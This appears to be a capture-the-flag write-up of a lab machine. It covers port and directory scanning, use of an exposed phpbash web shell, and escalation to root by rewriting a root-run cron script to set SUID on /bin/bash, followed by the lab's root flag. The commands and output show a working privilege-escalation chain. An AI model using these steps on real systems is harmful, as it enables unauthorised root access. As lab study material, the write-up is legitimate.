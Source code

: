 ## Initial NMAP:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nmap 10.129.39.129 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-19 10:56 +0545
Nmap scan report for 10.129.39.129
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.22 seconds
```

## Enemurating Port 80:

The index page consists of blog of phpbash, where one can execute bash commands through the web interface. 
Le'ts fuzz:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ ffuf -u http://10.129.39.129/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -c -ic -t 2000

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.39.129/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 2000
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

php                     [Status: 301, Size: 312, Words: 20, Lines: 10]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162]
```
After revewing the discovered endpoint, the `/dev` directory contains phpbash which is web interface for executing bash commands where `../uploads` is writeable, we can upload our reverse shell there.

```bash
www-data@bashed:/var/www/html/dev# ls -la ../uploads

total 12
drwxrwxrwx 2 root root 4096 Jun 2 2022 .
drw-r-xr-x 10 root root 4096 Jun 2 2022 ..
-rwxrwxrwx 1 root root 14 Dec 4 2017 index.html
```

this is how we get our shell as www-data.

## Privilege Escalation:

```bash
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

We can run all commands as scriptmanager without password, let's check what we can do with this user.

```bash
sudo -u scriptmanager /bin/bash

scriptmanager@bashed:/$ ls -la /
ls -la /
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            212 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 Dec 18 21:05 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 176 root          root              0 Dec 18 21:05 proc
drwx------   3 root          root           4096 Dec 18 21:06 root
drwxr-xr-x  18 root          root            520 Dec 18 21:05 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Dec 18 21:40 sys
drwxrwxrwt  10 root          root           4096 Dec 18 21:41 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

We can see that scriptmanager has write access to `/scripts` directory, let's check what we can do with this directory.

```bash
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 18 21:42 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

There is file called test.py which is owned by scriptmanager, checking the content, it just writes to the file called test.txt, but looking at the ownership we can see the file test.txt is owned by root. We already can assume that there's cronjob on test.py running as root, so we can abuse this to run any command as root.

```bash
scriptmanager@bashed:/scripts$ echo "import os;os.system('chmod u+s /bin/bash')">test.py
scriptmanager@bashed:/scripts$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cat /root/root.txt
cat /root/root.txt
33b16ed960c3e02c7b52bc7dd2cea7f4
```